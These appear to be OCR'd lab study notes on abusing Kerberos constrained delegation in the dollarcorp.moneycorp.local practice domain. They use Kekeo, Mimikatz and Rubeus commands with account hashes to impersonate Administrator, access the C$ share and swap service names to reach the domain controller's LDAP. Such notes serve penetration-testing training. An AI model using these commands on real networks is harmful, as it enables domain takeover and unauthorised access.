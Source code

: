 ##  Either plaintext password or NTLM hash/AES keys is required. We already have access to websvc's hash from dcorp-adminsrv
## Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram):
`kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f`
## Using s4u from Kekeo, we request a TGS  
`tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneyco rp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL`
## Using mimikatz, inject the ticket:
`Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LO
CAL.kirbi"'`
`ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$`

## To abuse Constrained delegation using Rubeus, we can use the following command (We are requesting a TGT and TGS in a single command):
`Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt`
`ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$`

## (SUPER IMPORTANT !!) In Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified. For example this account samaccountname: (DCORP-ADMINSRV$) can acces this service msds-allowedtodelegateto : (TIME/dcorp-cd.etc) as any user and it can also access all the services that run with the same service account as the TIME service. So all interesting services uses the machine account as the service account (for example TIME SERVICE,winrm, http,rpcss and etc). So that means what we cannot only access the TIME service on the domain controller as an  domain administrator but we can also access the other services.

## Either plaintext password or NTLM hash is required. If we have access to dcorp-adminsrv hash  Using asktgt from Kekeo, we request a TGT:
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
## Using s4u from Kekeo_one (no SNAME validation):
`tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneyc orp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL`
